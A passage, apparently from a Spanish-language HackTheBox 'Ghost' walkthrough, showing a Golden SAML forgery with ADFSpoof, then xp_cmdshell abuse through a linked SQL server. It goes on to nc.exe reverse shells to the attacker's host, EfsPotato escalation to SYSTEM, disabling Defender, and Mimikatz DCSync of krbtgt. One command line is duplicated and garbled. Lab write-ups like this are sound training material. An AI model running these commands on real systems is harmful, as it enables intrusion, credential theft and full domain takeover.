❯ cat token | base64 -d > EncryptedPfx.bin

❯ echo '8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1' | tr -d '-' | xxd -r -p > dkmKey.bin
```

Instalaremos la herramienta de `ADFSpoof` paa creación del `Golden SAML`.

El comando ejecutado utiliza el script `ADFSpoof.py` para generar un ticket SAML manipulado, permitiendo la suplantación del usuario `administrator` en el dominio `GHOST`. Este ataque se realiza mediante la firma de un Golden Ticket.

Se especifica un archivo PFX cifrado (`EncryptedPfx.bin`) que contiene la clave privada de la entidad de seguridad, junto con una clave secreta (`dkmKey.bin`). El objetivo es el servidor `core.ghost.htb`, sobre el cual se apunta el ataque SAML.

El ticket generado contiene el formato `transient` para el `NameID`, indicando un identificador temporal para el usuario suplantado. Se definen las aserciones SAML que afirman que el usuario `GHOST\administrator` tiene privilegios de acceso, permitiendo el acceso al sistema como si fuera ese usuario.

Este ataque, al manipular los datos SAML, da la capacidad de acceder a servicios protegidos sin necesidad de credenciales reales del usuario.



```bash
❯ python3 ADFSpoof.py -b ../EncryptedPfx.bin ../dkmKey.bin -s core.ghost.htb saml2 --endpoint https://core.ghost.htb:8443/adfs/saml/postResponse --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'GHOST\administrator' --rpidentifier https://core.ghost.htb:8443 --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue>GHOST\administrator</AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue>Administrator</AttributeValue></Attribute>'
dministrator' --rpidentifier https://core.ghost.htb:8443 --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue>GHOSTdministrator</AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue>Administrator</AttributeValue></Attribute>' - Parrot Terminal    ___    ____  ___________                   ____
   /   |  / __ \/ ____/ ___/____  ____  ____  / __/
  / /| | / / / / /_   \__ \/ __ \/ __ \/ __ \/ /_  
 / ___ |/ /_/ / __/  ___/ / /_/ / /_/ / /_/ / __/  
/_/  |_/_____/_/    /____/ .___/\____/\____/_/     
                        /_/                        

A tool to for AD FS security tokens
Created by @doughsec

/home/kali/Desktop/HackTheBox/Windows/AD/Ghost/content/GoldenSAML/ADFSpoof/ADFSpoof.py:96: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.utcnow()
PHNhbWxwOlJlc3BvbnNlIHhtbG5zOnNhbWxwPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6cHJvdG9jb2wiIElEPSJfUk9aMEVGIiBWZXJzaW9uPSIyLjAiIElzc3VlSW5zdGFudD0iMjAyNS0wMi0wN1QyMTowNDoxNy4wMDBaIiBEZXN0aW5hdGlvbj0iaHR0cHM6Ly9jb3JlLmdob3N0Lmh0Yjo4NDQzL2FkZnMvc2FtbC9wb3N0UmVzcG9uc2UiIENvbnNlbnQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpjb25zZW50OnVuc3BlY2lmaWVkIj48SXNzdWVyIHhtbG5zPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6YXNzZXJ0aW9uIj5odHRwOi8vY29yZS5naG9zdC5odGIvYWRmcy9zZXJ2aWNlcy90cnVzdDwvSXNzdWVyPjxzYW1scDpTdGF0dXM%2BPHNhbWxwOlN0YXR1c0NvZGUgVmFsdWU9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpzdGF0dXM6U3VjY2VzcyIvPjwvc2FtbHA6U3RhdHVzPjxBc3NlcnRpb24geG1sbnM9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDphc3NlcnRpb24iIElEPSJfNjBWN1M4IiBJc3N1ZUluc3RhbnQ9IjIwMjUtMDItMDdUMjE6MDQ6MTcuMDAwWiIgVmVyc2lvbj0iMi4wIj48SXNzdWVyPmh0dHA6Ly9jb3JlLmdob3N0Lmh0Yi9hZGZzL3NlcnZpY2VzL3RydXN0PC9Jc3N1ZXI%2BPGRzOlNpZ25hdHVyZSB4bWxuczpkcz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC8wOS94bWxkc2lnIyI%2BPGRzOlNpZ25lZEluZm8%2BPGRzOkNhbm9uaWNhbGl6YXRpb25NZXRob2QgQWxnb3JpdGhtPSJodHRwOi8vd3d3LnczLm9yZy8yMDAxLzEwL3htbC1leGMtYzE0biMiLz48ZHM6U2lnbmF0dXJlTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8wNC94bWxkc2lnLW1vcmUjcnNhLXNoYTI1NiIvPjxkczpSZWZlcmVuY2UgVVJJPSIjXzYwVjdTOCI%2BPGRzOlRyYW5zZm9ybXM%2BPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvMDkveG1sZHNpZyNlbnZlbG9wZWQtc2lnbmF0dXJlIi8%2BPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDEvMTAveG1sLWV4Yy1jMTRuIyIvPjwvZHM6VHJhbnNmb3Jtcz48ZHM6RGlnZXN0TWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8wNC94bWxlbmMjc2hhMjU2Ii8%2BPGRzOkRpZ2VzdFZhbHVlPjZRRW5ua2lVN2UvZmNpMTFZUUxkZEovZGpWeFJORGJ0a25sb1BKS05uM289PC9kczpEaWdlc3RWYWx1ZT48L2RzOlJlZmVyZW5jZT48L2RzOlNpZ25lZEluZm8%2BPGRzOlNpZ25hdHVyZVZhbHVlPlJyemFnSko2Sk1SVnY0aUprYTZoV0RqTW5yQkZ3cmxsSVhIYWNLalBHOXBOa25zRmc3TlVxN2FSNWNhd3cyNnd3NGw2M1ZtOG15NjZoc2NHdzFFcHdmN2JBaVZzalNsQVN2cEptVTNNS1IxVEVNU3ZGY1VtOWF3ejIyN3NWcDNiVzQyb2FOY1R0MDNIZWYwcHhVOVNydVV4OGZGSUYwTU5BNzFUSjA3eUptZkJPK3NHY3ltSnN6S0NIalJnUmMrM08wSVcxZzZ3amY0alhLUWhmdU9Hd3RRc1JYdFdMS3o5ekp5b25ZRGRadjZoazRSb3FWdENOYlBoa0JNWGpnS2w0YmNNaHFDUkQ3eTBUVUlvWmQ3SUJRM1p6OFoySWd2TUJTQXJzQ3pEZTU3VStZT2t5Q2FFQTA0TVVaMXpodVZSRldiVW93Zkt0Q2lZMXo1SXVFOGNYQ1dMckZMWkg4a21QTWttZnA3c01jYlphQzduMGVPVkF3a29wS0c3akJwNkpzMjBTRGpvOHYyUDBTYVY3ZVdicHpBSmlXMzdKMnFydXcySXF1LzRPK0l1SFYzN0dPZlNPYUcrS0VDU3NabzdUUE1kbHd3OTh5aTFmcUF5WlRGczVaY0RJcWl4Kzk3QVdDVk9uTjJSSG1ZZDVrV3gyYVZDbWRkRTVTZzM1VHBrblJmbm9UMzFPSWtHWW9xclRqSWdUZ0RWZ1c2cHNvbUpoRXFib1Nqck5BeWtyQnF4Z2dHYWhJNHBhVHdTd1lrUVpzUEJIZ2F6VkR2dnRET1YxQy9hZmNGY2x1Y2FTTG1iTzluSDZETDVlVmFLSzNiL1hwcVEwM0FuaFd4NWdsS2ErRHdnc2tQMXVlQUgyMWxCa2hGa09lMjNmVStSdFpISzRaZExXWXdQelFZPTwvZHM6U2lnbmF0dXJlVmFsdWU%2BPGRzOktleUluZm8%2BPGRzOlg1MDlEYXRhPjxkczpYNTA5Q2VydGlmaWNhdGU%2BTUlJRTVqQ0NBczZnQXdJQkFnSVFKRmNXd015YlJhNU80K1dPNXRXb0dUQU5CZ2txaGtpRzl3MEJBUXNGQURBdU1Td3dLZ1lEVlFRREV5TkJSRVpUSUZOcFoyNXBibWNnTFNCbVpXUmxjbUYwYVc5dUxtZG9iM04wTG1oMFlqQWdGdzB5TkRBMk1UZ3hOakUzTVRCYUdBOHlNVEEwTURVek1ERTJNVGN4TUZvd0xqRXNNQ29HQTFVRUF4TWpRVVJHVXlCVGFXZHVhVzVuSUMwZ1ptVmtaWEpoZEdsdmJpNW5hRzl6ZEM1b2RHSXdnZ0lpTUEwR0NTcUdTSWIzRFFFQkFRVUFBNElDRHdBd2dnSUtBb0lDQVFDK0FBT0lmRXF0bFljbjE1M0wxQnZHUWdEeVhUbll3VFJ6c0s1OSt6RTF6Z0dLTzlONW5iOEZrK2RhS3BXTFFhaUg3b0RIYWVudy9RYXhCZzVxZGVEWW1EM296OEt5YUExeWdZQnJ6bTR3VzdGZjg3cks5RmU1SjUvaDZXOWc3NDloNUJJcVBRT3AwbDZzMXJmdW1PY2NONHliVzk1RVdOTDB2dVFYdkMrS1E0RDRnTVh1OG1DR3B4dHZJTDhpbE50SnVJRzNPUllTS2hSYWwweXlKZU9oRzR4Z2xyWkpGMThwOXdobkU2b21nZ21BNm4yc2hEay90dlRZamlpNWU3L2ljV1RLa3JzTUNwYUtVTms3bXhkTVpoUWFiN1NtZktyWk40cFJEN2RWZzV6ekl5RDdVelM5Q0hMQzZ4TnpxL1owaHVhT2FKaE9TZEpTZ2F0L2JzRzhuYngxOUhELyt5cFc5SjJMdE5GdWdkV3RtVUJXRE9RQllWaEI4U2c0VkVHZ1A5anlJdEhIMmJ6c0RmalJkSjhFMXVOSldQL2tRQTErd1lsT2RkTHFVM2IwSXNDdmxBOEV2WVcwVDFSc3U3N280eC93MGdXYjBvUVBFSXo3ejk3M2I0OTZ3cVF0M0RueWZlTzNsWFhmWk5jdmFqNUtDUDJUdEdCK0tzaEY5cGtJUHhxN0YyZ01oN1FqeGpSSHNBMjlWOGpGbzlnTEQ3a1BWaWNhSVVkc2dpRkhuWVFGMTRhNTJKdFIxVjVpTitoOTVKa3V1RXFRV0RCSEF2UEVCQlprRVpIKzV5VCthQ0ZYWFgrQnBQdDNRR2pZTGVKVThDRnNNdG44UVZMWXZMZGNWUnNVblJoL1dIaVh3Sk9PRVZFQ2E5dzcveVZuaGFsQ05CeDFFL2w0S1FJREFRQUJNQTBHQ1NxR1NJYjNEUUVCQ3dVQUE0SUNBUUFXWUtaVzNjRENCTzZkVDN5ZmwzT2N1eXAxTFZLVkkrOXBGeC9iYldwV2pTZGg2YjM5TFR4eEQ3RllVdGh1V1BaM3JGNEcrRmRNRkhIQ3gzWXBFbVVGbkVMS3NYcWhaOTg5QVg1OEkvM21iZlVsS1dlSVBMU0xrcCtlUlpvTUprdDdrMS9LWHREYXNPUW4wTnNnWUVvd0xCSW1NQ011OXV1am5DbUZPd0hQL0lCaGdZUU1IaDQ2QnpTWFdQM2k4VlhiclJ0RHBvL2MvL09GSmhHbW5uRjhaUG1pNHh0emZTREJwVktxd1ZMcDc4Q2d1TXhqUWQrYmRVYjQ1NTg4Wko0Q0xzUGRSUXAzMFdKMS9DTklhZW52Sld0QTJHNUladzVVMEVXQ0pMb1lKV0ZzOWl5T2ExL3k1NXJ1VzZKOGxJR0Qwd21vRWVDbDlDSDFFZDRkelVkVVhmMU1CQ1lQM1g5MmlheHpVRTB1cEdkLzFRbzZIVHl5T2xXdUF3cmtUMlZIRUxLVlpLT2c4K2RseTk3Z3laSWZVdFF3SWtQd05sOHZvMDRjZmoraHpPdkJ6UEtBQVloMTROTGd2ZUFJL0RxTW5PME9LTyt3MUhCS3c2NE5CQ244Z29hekYrUHVGZlVPMHlOSEZMNGt4TXBjYXA2aWV2NmczQlhDU0R3ZnFUVU9FdUVzN3E5b1lLZ3EycW5OVk9USWhoSW5NWEJ6RW02aVAxM2pmdU9vWEpkUEFuRVVYbjR5NXl3QTk3cnRiR25aRVB5eDFmMUVrWC9oYnFCUDR2b2d2OWtsdGFVRUVWWGtTK2hQcHhabWV4Q05yQkQxcTdHSi81MGViWWxDMENldjh3Nk1zOHRNME9ydnBwR1lsV3J0UHdldkV2ZmlSa3dCTEc3RU1BbkxTdz09PC9kczpYNTA5Q2VydGlmaWNhdGU%2BPC9kczpYNTA5RGF0YT48L2RzOktleUluZm8%2BPC9kczpTaWduYXR1cmU%2BPFN1YmplY3Q%2BPE5hbWVJRCBGb3JtYXQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpuYW1laWQtZm9ybWF0OnRyYW5zaWVudCI%2BR0hPU1RcYWRtaW5pc3RyYXRvcjwvTmFtZUlEPjxTdWJqZWN0Q29uZmlybWF0aW9uIE1ldGhvZD0idXJuOm9hc2lzOm5hbWVzOnRjOlNBTUw6Mi4wOmNtOmJlYXJlciI%2BPFN1YmplY3RDb25maXJtYXRpb25EYXRhIE5vdE9uT3JBZnRlcj0iMjAyNS0wMi0wN1QyMTowOToxNy4wMDBaIiBSZWNpcGllbnQ9Imh0dHBzOi8vY29yZS5naG9zdC5odGI6ODQ0My9hZGZzL3NhbWwvcG9zdFJlc3BvbnNlIi8%2BPC9TdWJqZWN0Q29uZmlybWF0aW9uPjwvU3ViamVjdD48Q29uZGl0aW9ucyBOb3RCZWZvcmU9IjIwMjUtMDItMDdUMjE6MDQ6MTcuMDAwWiIgTm90T25PckFmdGVyPSIyMDI1LTAyLTA3VDIyOjA0OjE3LjAwMFoiPjxBdWRpZW5jZVJlc3RyaWN0aW9uPjxBdWRpZW5jZT5odHRwczovL2NvcmUuZ2hvc3QuaHRiOjg0NDM8L0F1ZGllbmNlPjwvQXVkaWVuY2VSZXN0cmljdGlvbj48L0NvbmRpdGlvbnM%2BPEF0dHJpYnV0ZVN0YXRlbWVudD48QXR0cmlidXRlIE5hbWU9Imh0dHA6Ly9zY2hlbWFzLnhtbHNvYXAub3JnL3dzLzIwMDUvMDUvaWRlbnRpdHkvY2xhaW1zL3VwbiI%2BPEF0dHJpYnV0ZVZhbHVlPkdIT1NUXGFkbWluaXN0cmF0b3I8L0F0dHJpYnV0ZVZhbHVlPjwvQXR0cmlidXRlPjxBdHRyaWJ1dGUgTmFtZT0iaHR0cDovL3NjaGVtYXMueG1sc29hcC5vcmcvY2xhaW1zL0NvbW1vbk5hbWUiPjxBdHRyaWJ1dGVWYWx1ZT5BZG1pbmlzdHJhdG9yPC9BdHRyaWJ1dGVWYWx1ZT48L0F0dHJpYnV0ZT48L0F0dHJpYnV0ZVN0YXRlbWVudD48QXV0aG5TdGF0ZW1lbnQgQXV0aG5JbnN0YW50PSIyMDI1LTAyLTA3VDIxOjA0OjE2LjUwMFoiIFNlc3Npb25JbmRleD0iXzYwVjdTOCI%2BPEF1dGhuQ29udGV4dD48QXV0aG5Db250ZXh0Q2xhc3NSZWY%2BdXJuOm9hc2lzOm5hbWVzOnRjOlNBTUw6Mi4wOmFjOmNsYXNzZXM6UGFzc3dvcmRQcm90ZWN0ZWRUcmFuc3BvcnQ8L0F1dGhuQ29udGV4dENsYXNzUmVmPjwvQXV0aG5Db250ZXh0PjwvQXV0aG5TdGF0ZW1lbnQ%2BPC9Bc3NlcnRpb24%2BPC9zYW1scDpSZXNwb25zZT4%3D
```

Añadiremos `core.ghost.htb` en nuestro archivo `/etc/hosts`

```bash
❯ cat /etc/hosts | grep ghost.htb
10.10.11.24 ghost.htb dc01.ghost.htb intranet.ghost.htb federation.ghost.htb gitea.ghost.htb core.ghost.htb
```

Interceptaremos la solicitud al acceder a [https://core.ghost.htb:8443/adfs/saml/postResponse](https://core.ghost.htb:8443/adfs/saml/postResponse), modificaremos la solicitud `GET` por `POST` e indicaremos el SAML obtenido en el paso anterior, al enviar la solicitud en `BurpSuite`, verificamos que parece que ha funcionado correctamente el `Golden SAML Attack`.

<figure><figcaption></figcaption></figure>

Haremos click derecho y trataremos de visualizar la respuesta en el navegador.

<figure><figcaption></figcaption></figure>

Verificaremos que se nos quedará nuestro navegador cargando en la siguiente página web.

<figure><figcaption></figcaption></figure>

Volvemos al `BurpSuite` y de la solicitud interceptada, le daremos a la opción de `Forward`.

<figure><figcaption></figcaption></figure>

Al acceder nuevamente a nuestro navegador, comprobamos el acceso al `Ghost Config Panel`, el acceso que dispnemos con el SAML. Verificamos que se trata de una página web en la cual nos permite realizar consultas SQL.

<figure><figcaption></figcaption></figure>

Esta consulta intenta obtener el nombre de los servidores vinculados a la base de datos, seleccionando la columna `SRVNAME` de la tabla `SYSSERVERS`. Es común en SQL Server, y en un contexto de inyección SQL, un atacante podría usarla para obtener información sobre los servidores vinculados y otros detalles de la base de datos.

```sql
SELECT+SRVNAME+FROM+SYSSERVERS
```

<figure><figcaption></figcaption></figure>

Este comando intenta ejecutar código como el usuario `sa`, que es una cuenta de administrador en el sistema. Se utiliza el `EXECUTE AS LOGIN` para cambiar el contexto de ejecución al usuario `sa`, y luego se ejecuta un comando que obtiene el nombre de usuario del sistema con `SELECT SYSTEM_USER`. Esto puede ser útil para probar si se tienen privilegios elevados o para realizar acciones maliciosas con permisos elevados.

```sql
EXECUTE('EXECUTE+AS+LOGIN+%3d+''sa''%3bSELECT+SYSTEM_USER')+AT+[PRIMARY]
```

<figure><figcaption></figcaption></figure>

Este comando tiene como objetivo habilitar la opción `xp_cmdshell` en SQL Server, lo que permite ejecutar comandos del sistema operativo directamente desde la base de datos. Primero, utiliza `EXEC AS LOGIN = 'sa'` para cambiar al contexto del usuario `sa`, que es el administrador del sistema. Luego, habilita las opciones avanzadas (`sp_configure "show advanced options", 1`) y habilita el uso de `xp_cmdshell` (`sp_configure "xp_cmdshell", 1`). Finalmente, ejecuta un comando del sistema operativo usando `xp_cmdshell`, en este caso, `whoami`, para obtener el nombre de usuario bajo el cual se está ejecutando el proceso.

En elresultado obtenido, verificamos que el usuario que ejecuta el comando es `NT SERVICE\mssqlserver`.

```sql
EXEC('EXEC AS LOGIN = ''sa'';EXEC sp_configure "show advanced options", 1; RECONFIGURE; EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE;exec xp_cmdshell "whoami"') AT [PRIMARY]
```

<figure><figcaption></figcaption></figure>

Dado que podemos ejecutar comandos arbitrarios en el equipo, el siguiente paso será lograr obtener acceso al sistema. Para ello, dispondremos del binario de `nc.exe` el cual compartiremos a través de un servidor SMB.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Fri Feb  7 22:36:05 2025  nc.exe

❯ smbserver.py smbFolder $(pwd) -username gzzcoo -password gzzcoo123 -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Lo primero que debereos realizar, es conectar nuestro servidor SMB al equipo mediante una unidad de red, para ello haremos uso del siguiente comando. Verificaremos que se nos indica un mensaje de `The command completed successfully`.

```sql
EXEC('EXEC+AS+LOGIN+%3d+''sa''%3bEXEC+sp_configure+"show+advanced+options",+1%3b+RECONFIGURE%3b+EXEC+sp_configure+"xp_cmdshell",+1%3b+RECONFIGURE%3bexec+xp_cmdshell+"net+use+x:+\\10.10.16.7\smbFolder+/user:gzzcoo+gzzcoo123"')+AT+[PRIMARY]
```

<figure><figcaption></figcaption></figure>

Una vez tengamos nuestro recurso compartido en una unidad de red del equipo, lo que realizaremos es ejecutar el `nc.exe` que disponemos en nuestro servidor SMB para otorgarnos una Reverse Shell.

```sql
EXEC('EXEC+AS+LOGIN+%3d+''sa''%3bEXEC+sp_configure+"show+advanced+options",+1%3b+RECONFIGURE%3b+EXEC+sp_configure+"xp_cmdshell",+1%3b+RECONFIGURE%3bexec+xp_cmdshell+"x:\\nc.exe+-e+cmd+10.10.16.7+443"')+AT+[PRIMARY]
```

<figure><figcaption></figcaption></figure>

Verificamos que hemos ganado acceso al equipo mediante el usuario`mssqlserver`.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.24] 49834
Microsoft Windows [Version 10.0.20348.2582]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssqlserver
```

## Shell as SYSTEM

### Abusing SeImpersonatePrivilege (EfsPotato)

Revisando el equipo al cual disponemos acceso, verificamos que nos encontramos en un equipo distinto al del DC.

```powershell
PS C:\ProgramData> hostname
hostname
PRIMARY

PS C:\ProgramData> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.0.0.10
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.0.254
PS C:\ProgramData> 
```

Revisando los permisos de `whoami /priv` que dispone el usuario actual, verificamos que disponemos del privilegio `SeImpersonatePrivilege` el cual nos permitiría abusar de él para convertirnos en `NT AUTHORITY\SYSTEM`.

```powershell
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```


En este caso, lo que realizaremos es abusar del privilegio menciondo a través de `EfsPotato`.


EfsPotato es una herramienta de post-explotación que permite obtener privilegios elevados en sistemas Windows utilizando una vulnerabilidad en el servicio de cifrado de archivos (EFS). Aprovecha el hecho de que los procesos con privilegios más bajos pueden manipular ciertos objetos relacionados con el cifrado de archivos, lo que permite a un atacante ejecutar código con privilegios de sistema (SYSTEM). Es útil cuando un atacante tiene acceso a una cuenta con privilegios limitados, pero no cuenta con privilegios de administrador en el sistema.




En el repositorio del binario de `EfsPotato`, deberemos de compilar el binario desde el equipo. Para ello, primero revisaremos las versiones de `Microsoft.Net` que dispone el equipo víctima.

```powershell
PS C:\ProgramData> dir C:\Windows\Microsoft.Net\Framework\
dir C:\Windows\Microsoft.Net\Framework\


    Directory: C:\Windows\Microsoft.Net\Framework


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          5/8/2021   1:27 AM                v1.0.3705                                                            
d-----          5/8/2021   1:27 AM                v1.1.4322                                                            
d-----          5/8/2021   1:15 AM                v2.0.50727                                                           
d-----          2/7/2025   9:56 AM                v4.0.30319 
```

Nos descargaremos el archivo `EfsPotato.cs` del proyecto de GitHub.

```bash
❯ ls -l EfsPotato.cs
.rw-rw-r-- kali kali 25 KB Fri Feb  7 22:50:45 2025 󰌛 EfsPotato.cs
```

Copiaremos este archivo que contiene el código fuente del binario hacia el equipo víctima.

```powershell
PS C:\ProgramData> copy X:\EfsPotato.cs C:\ProgramData\EfsPotato.cs
copy X:\EfsPotato.cs C:\ProgramData\EfsPotato.cs
PS C:\ProgramData> ls
ls


    Directory: C:\ProgramData


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d---s-          5/8/2021   1:27 AM                Microsoft                                                            
d-----          2/2/2024   8:36 PM                Package Cache                                                        
d-----          5/8/2021   1:15 AM                regid.1991-06.com.microsoft                                          
d-----          5/8/2021   1:15 AM                SoftwareDistribution                                                 
d-----          5/8/2021   2:33 AM                ssh                                                                  
d-----         1/31/2024   6:28 PM                USOPrivate                                                           
d-----          5/8/2021   1:15 AM                USOShared                                                            
-a----          2/7/2025   1:50 PM          25441 EfsPotato.cs  
```

Compilaremos el`EfsPotato.cs` y verificaremos que se ha creado el archivo `EfsPotato.exe`.

```powershell
PS C:\ProgramData> C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
Microsoft (R) Visual C# Compiler version 4.8.4161.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

PS C:\ProgramData> ls
ls


    Directory: C:\ProgramData


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d---s-          5/8/2021   1:27 AM                Microsoft                                                            
d-----          2/2/2024   8:36 PM                Package Cache                                                        
d-----          5/8/2021   1:15 AM                regid.1991-06.com.microsoft                                          
d-----          5/8/2021   1:15 AM                SoftwareDistribution                                                 
d-----          5/8/2021   2:33 AM                ssh                                                                  
d-----         1/31/2024   6:28 PM                USOPrivate                                                           
d-----          5/8/2021   1:15 AM                USOShared                                                            
-a----          2/7/2025   1:50 PM          25441 EfsPotato.cs                                                         
-a----          2/7/2025   1:53 PM          17920 EfsPotato.exe 
```

Por otro lado, también nos copiaremos el binario de `nc.exe` en la ruta de `C:\ProgramData`.

```powershell
PS C:\ProgramData> copy x:\nc.exe C:\ProgramData\nc.exe
copy x:\nc.exe C:\ProgramData\nc.exe
PS C:\ProgramData> ls
ls


    Directory: C:\ProgramData


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d---s-          5/8/2021   1:27 AM                Microsoft                                                            
d-----          2/2/2024   8:36 PM                Package Cache                                                        
d-----          5/8/2021   1:15 AM                regid.1991-06.com.microsoft                                          
d-----          5/8/2021   1:15 AM                SoftwareDistribution                                                 
d-----          5/8/2021   2:33 AM                ssh                                                                  
d-----         1/31/2024   6:28 PM                USOPrivate                                                           
d-----          5/8/2021   1:15 AM                USOShared                                                            
-a----          2/7/2025   1:50 PM          25441 EfsPotato.cs                                                         
-a----          2/7/2025   1:53 PM          17920 EfsPotato.exe                                                        
-a----          2/7/2025   1:36 PM          28160 nc.exe  
```

Nos pondremos en escucha con `nc` para recibir la Shell como `NT AUTHORITY\SYSTEM`.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```

Ejecutaremos el `EfsPotato.exe` para convertirnos en usuario Administrador y ejecutaremos el `nc.exe` para enviarnos una Reverse Shell, este comando lo ejecutará el usuario Administrador.

```powershell
PS C:\ProgramData> .\EfsPotato.exe "C:\ProgramData\nc.exe -e cmd 10.10.16.7 444"
.\EfsPotato.exe "C:\ProgramData\nc.exe -e cmd 10.10.16.7 444"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: NT Service\MSSQLSERVER
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=19a98a00)
[+] Get Token: 908
[!] process with pid: 272 created.
==============================
```

Verificamos que hemos ganado acceso al equipo que nos encontrábamos y nos hemos convertido en usuario `NT AUTHORITY\SYSTEM`.

```powershell
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.24] 49800
Microsoft Windows [Version 10.0.20348.2582]
(c) Microsoft Corporation. All rights reserved.

C:\ProgramData>whoami
whoami
nt authority\system
```

Deshabilitaremos el AV (Antivirus) del equipo a través del siguiente comando.

```powershell
PS C:\ProgramData> Set-MpPreference -DisableRealtimeMonitoring $True
```

## Privilege Escalation (Method 1)

### Golden Ticket Attack

Nos encontramos en el equipo `PRIMARY`, que forma parte del dominio `CORP.GHOST.HTB`, con privilegios `NT AUTHORITY\SYSTEM`. Nuestro objetivo es escalar privilegios dentro del dominio y, para ello, utilizaremos un `Golden Ticket Attack`.

Este método nos permitirá generar un ticket Kerberos válido con privilegios administrativos, otorgándonos acceso total en el dominio sin necesidad de credenciales legítimas. A lo largo del proceso, explicaremos cada paso en detalle, desde la obtención de las claves necesarias hasta la generación y uso del ticket.

<figure><figcaption></figcaption></figure>

En este caso, deberemos de disponer del binario de `Mimikatz` en nuestro equipo, el cual compartiremos a través de un servidor web.

```bash
❯ ls -l mk.exe
.rw-r--r-- kali kali 1.2 MB Fri Feb  7 22:57:17 2025  mk.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo de `PRIMARY` nos descargaremos el binario de `Mimikatz`.

```powershell
PS C:\ProgramData> certutil.exe -f -urlcache -split http://10.10.16.7/mk.exe mk.exe
certutil.exe -f -urlcache -split http://10.10.16.7/mk.exe mk.exe
****  Online  ****
  000000  ...
  131308
CertUtil: -URLCache command completed successfully.
```

Utilizamos `mimikatz` para obtener el hash `NTLM` y el `aes256_hmac` del usuario `krbtgt`, el cual este último necesitaremos para realizar el **Golden Ticket Attack**.

```powershell
PS C:\ProgramData> .\mk.exe "lsadump::dcsync /user:CN=krbtgt,CN=Users,DC=corp,DC=ghost,DC=htb" exit
.\mk.exe "lsadump::dcsync /user:CN=krbtgt,CN=Users,DC=corp,DC=ghost,DC=htb"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
